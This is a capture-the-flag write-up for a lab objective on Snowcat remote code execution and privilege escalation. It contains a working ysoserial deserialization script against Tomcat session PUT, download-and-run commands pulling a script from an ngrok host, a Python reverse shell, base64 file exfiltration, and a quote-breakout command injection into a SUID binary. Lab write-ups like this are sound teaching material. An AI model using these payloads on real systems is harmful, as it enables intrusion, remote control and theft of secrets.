

+++
date = '2025-12-23T15:59:59+01:00'
draft = true
title = 'Snowcat RCE & Priv Esc'
weight = 3
+++


## Objective

| Difficulty | Description |
| ---------- | ----------- |
| 3/5 | Tom, in the hotel, found a wild Snowcat bug. Help him chase down the RCE! Recover and submit the API key not being used by snowcat. |

## Tom Hessman mission statement

> Hi, I'm Tom! I've worked for Counter Hack since its founding in 2010.
> 
> I love all things testing and QA, maintaining systems, logistics, and helping our customers have the best possible experience.
> 
> Outside of work, you'll find me at my local community theater producing shows, helping with sound or video, or just hanging around.
> 
> Learn more about my background at TomHessman.com!
> 
> ----
> 
> Well, I might have something developing. Come see me again soon, we'll see.
> 
> ----
> 
> We've lost access to the neighborhood weather monitoring station.
> 
> There are a couple of vulnerabilities in the snowcat and weather monitoring services that we haven't gotten around to fixing.
> 
> Can you help me exploit the vulnerabilities and retrieve the other application's authorization key?
> 
> Enter the other application's authorization key into the badge.
> 
> If Frosty's plan works and everything freezes over, our customers won't be having the best possible experience—they'll be having the coldest possible experience! We need to stop this before the whole neighborhood becomes one giant freezer.

## Solution

This objective centers on identifying and exploiting a vulnerability chain that combines remote code execution with privilege escalation. By analyzing how Snowcat processes input and manages execution context, I had to move beyond finding a single bug and instead demonstrate how initial code execution can be leveraged to access higher-privilege functionality and sensitive secrets. The challenge reinforces how weak isolation between components can turn a limited flaw into full system compromise.

Starting out I were left with a message at the terminal: 


Listing what I got nearby I saw there was a _notes.md_ file. Outputting it to screen gave some hints: 


The objective is pretty well laid out, like a step by step instruction. There's also a Python file nearby:


And also a folder with JSP pages:


I took all of these JSP pages and uploaded them to ChatGPT asking it for which libraries where in use and if there were any interesting artefacts in them, and I got this table: 

| Library / Component                               | Type                  | What it does                                                                                                                                                       |
| ------------------------------------------------- | --------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Java Standard Library (JDK)                       | Core runtime          | Provides I/O (`java.io`), process execution (`Runtime.exec`), primitive parsing, and general language features used throughout the JSP scriptlets.                 |
| JSP / Servlet API                                 | Web framework         | Enables server-side rendering, request/response handling, session management, redirects, and access to implicit objects (`request`, `response`, `session`, `out`). |
| Apache Commons Collections (3.x)                  | Utility library       | Supplies `MultiValueMap`, used to store multiple values per key (here: min/max ranges for weather normalization).                                                  |
| SQLite JDBC (Xerial)                              | Database driver       | Implements the JDBC driver (`org.sqlite.JDBC`) allowing Java/JSP code to connect to a local SQLite database file for authentication.                               |
| SQLite Database Engine                            | Embedded database     | Stores user records (`users` table) used during login authentication.                                                                                              |
| External native binaries (`/usr/local/weather/*`) | OS-level dependencies | Executable programs invoked from Java to retrieve temperature, humidity, and pressure values via stdout.                                                           |
| CSS (`styles.css`)                                | Frontend styling      | Provides layout and visual styling for login and dashboard pages.                                                                                                  |
| JavaScript (`snowflakes.js`)                      | Frontend scripting    | Adds client-side visual behavior (snowflake animation effect).                                                                                                     |
| Servlet Container (e.g., Apache Tomcat)           | Application server    | Hosts the JSPs, provides the Servlet/JSP runtime, session handling, and integrates JDBC drivers and libraries on the classpath.                                    |

Interesting - I felt had a relatively good understading of the site. However, by reading the _notes.md_ I needed to figure out where this server running. I just took a wild guess since the server IP is never mentioned: 


And I am in the server already! Thus turning my attention to take the Snowcat exploit in consideration. I followed the instructions in _notes.md_ and crafted this script:  

```bash
#!/usr/bin/env bash

HOST="localhost"
PORT=80

SESSION_ID=$(curl -sS --head http://${HOST}:${PORT} | awk -F'[=;]' '/JSESSIONID/ {print $2}')

COMMAND="curl https://webhook.site/cabdef54-8500-47d7-9906-0513f3c4587b"
java -jar ysoserial.jar CommonsCollections7 "$COMMAND" > payload.bin

curl -X PUT \
  -H "Host: ${HOST}:${PORT}" \
  -H "Content-Length: $(wc -c < payload.bin)" \
  -H "Content-Range: bytes 0-$(($(wc -c < payload.bin)-1))/$(wc -c < payload.bin)" \
  --data-binary @payload.bin \
  "http://${HOST}:${PORT}/${SESSION_ID}/session"

curl -X GET \
  -H "Host: ${HOST}:${PORT}" \
  -H "Cookie: JSESSIONID=.${SESSION_ID}" \
  "http://${HOST}:${PORT}/"
```

As a proof of concept I was able to reach out to my _webhook.site_. After some tries and pondering, I finally found out how to create a reverse shell. It turns out there has to be some filtering going on or other interference. The usual Linux options to run code sequentially, `&&` and `;`, did not work. The solution I cooked up was to split all operations into separate stesp and run them. The easiest way was to implent a function like so: 


```bash
#!/usr/bin/env bash

HOST="localhost"
PORT=80
SESSION_ID=$(curl -sS --head http://${HOST}:${PORT} | awk -F'[=;]' '/JSESSIONID/ {print $2}')

run_attack() {
        local COMMAND="$1"
        java -jar ysoserial.jar CommonsCollections7 "$COMMAND" > payload.bin

        curl -X PUT \
          -H "Host: ${HOST}:${PORT}" \
          -H "Content-Length: $(wc -c < payload.bin)" \
          -H "Content-Range: bytes 0-$(($(wc -c < payload.bin)-1))/$(wc -c < payload.bin)" \
          --data-binary @payload.bin \
          "http://${HOST}:${PORT}/${SESSION_ID}/session"

        curl -X GET \
          -H "Host: ${HOST}:${PORT}" \
          -H "Cookie: JSESSIONID=.${SESSION_ID}" \
          "http://${HOST}:${PORT}/"
}

run_attack "curl -s https://scarabaeiform-prolixly-odin.ngrok-free.dev/shell.sh -o /tmp/shell.sh"
run_attack "sh /tmp/shell.sh"
```

### Setup attack infrastructure

Before running the payload creating the reverse shell, I had to set up my infrastructure. This is the same infrastructure I used on _"Hack a Gnome"_. The infrastructure is based on [Ngrok](https://ngrok.com/) and Kali in WSL (in total four instances): 

| Command | Public | Description |
| ------- | ------ | -------|
| ngrok tcp 8501  | Yes | Public exposed reverse shell port through Ngrok |
| nc -lnvp 8501   | No  | Local (attacking machine) listening port using Netcat mapped to public Ngrok bridge |
| ngrok http 8001 | Yes | Public exposed web server for serving scripts |
| python3 -m http.server 8001 | No | Local (attacking machine) web server mapped to public Ngrok bridge |

The architecture looks like this:



### Reverse shell

Launching my payload resulted in a reverse shell:


The magic behind it is this Python piece:

```bash
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("5.tcp.eu.ngrok.io",18288));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I host this on my webserver. I have instructed my payload to reach out to my webserver, download the script and execute it. When I got shell, I had to upgrade it by issuing:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This is classical CTF. At this point I wondered if I could find the SQLite database ChatGPT told me about. Finding out where Snowcat lives: 

```bash
find / -type f -name snowcat
```

I found directory _/usr/local/snowcat/_. Entering the folder and finding the database, smuggle it out as Base64 string:

```bash
cd /usr/local/snowcat/
find . -name "weather.db"
cd /usr/local/snowcat/webapps/ROOT/WEB-INF/classes
cat weather.db | base64
```

I copied the Base64 encoded string to my Kali box, decoded and opened it in SQLitebrowser: 

```bash
cat sqlite.txt | base64 -d > weather.db
sqlitebrowser weather.db
```

Turns out there is just one table here and it contains one password in cleartext:


However, I now figured out that the rest of the objective could be solved without this reverse shell. Thus, my writeup takes a slight turn here, where I conduct the attack using the original _user_ account. Moving on to finding finding binaries with the SUID flag set:


I identifed the _weather_ folder and the binaries as relevant. Moving on to dissect the binaries I first smuggled them out to my Kali instance:

```bash
cat humidity | base64
cat pressure | base64
cat temperature | base64
```

In Kali I converted them into binaries:

```bash
cat humidity.txt | base64 -d > humidity.bin
cat pressure.txt | base64 -d > pressure.bin
cat temperature.txt | base64 -d > temperature.bin
```

Then i opened each _.bin_ file in [Dogbolt](https://dogbolt.org) to see if they had somethign interesting on the inside: 


Of interesting strings I found the following: 

* "/usr/local/weather/config"
* "/usr/local/weather/data/humidity"
* "/usr/local/weather/logUsage"
* "/usr/local/weather/keys/authorized_keys"
* "/usr/local/weather/data/pressure"
* "/usr/local/weather/data/temperature"

Each binary contained mostly the same strings, one very interesting one was the _"/usr/local/weather/keys/authorized_keys"_ file. It seems like this is the ultimate goal I am looking for. I now had myself a goal, but how to reach it? I took the decompiled code from one of these binaries and fed it into ChatGPT and asked if there were any vulnerabilities present. ChatGPT stated there was a command injection in _log_usage()_ via _system()_:

```c
snprintf(v1, 0x100, "%s '%s' '%s'", "/usr/local/weather/logUsage", "temperature", a0);
system(v1);
```

In which _a0_ comes from `argv (<key>)`, so it’s attacker-controlled. Wrapping in single quotes is not considered safe: a key containing ' will break out of the quoted string and can inject shell syntax. Further ChatGPT stated "If this binary is running with elevated privileges at this point (and it is: it calls setuid/setgid from config), this is a classic privilege escalation primitive."

In order to exploit this I needed a valid key, and I found that in the _/home/user/weather-jsps_ folder:


Key "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6" is valid as the screenshot shows. I then crafted this payload after input from ChatGPT: 

```bash
/usr/local/weather/humidity "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6'; sh; #"
```

Unleashing my payload and finding keys: 


The API key I needed was _8ade723d-9968-45c9-9c33-7606c49c2201_

### Getting ROOT 

Getting root on this box is trivial. While being the user "weather" I have control over the content in the _/usr/local/weather_ folder. In this folder there's a _config_ file containing: 

```bash
username=value
groupname=value
```

With this user I had write permissions over the config file that is used to determine the setuid and setgid in the _humidity_, _temperature_ and _pressure_ binaries. By changing the values to _root_ and running `/usr/local/weather/humidity "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6'; sh; #"` I got root: 


Apparently, the goal mentioned is:

```text
Lower average winter temperature to -15.4 C
Lower average summer temperature to -3.7 C
```

Small execution flaws become critical when privilege boundaries are poorly enforced.

## Tom Hessman closing words

After solving, Tom says:

> Fantastic work! You've successfully exploited those vulnerabilities and retrieved the authorization key from the weather monitoring system.
> 
> Thanks for helping me get access back - our customers are going to have a much better experience now that we've got the weather station running again!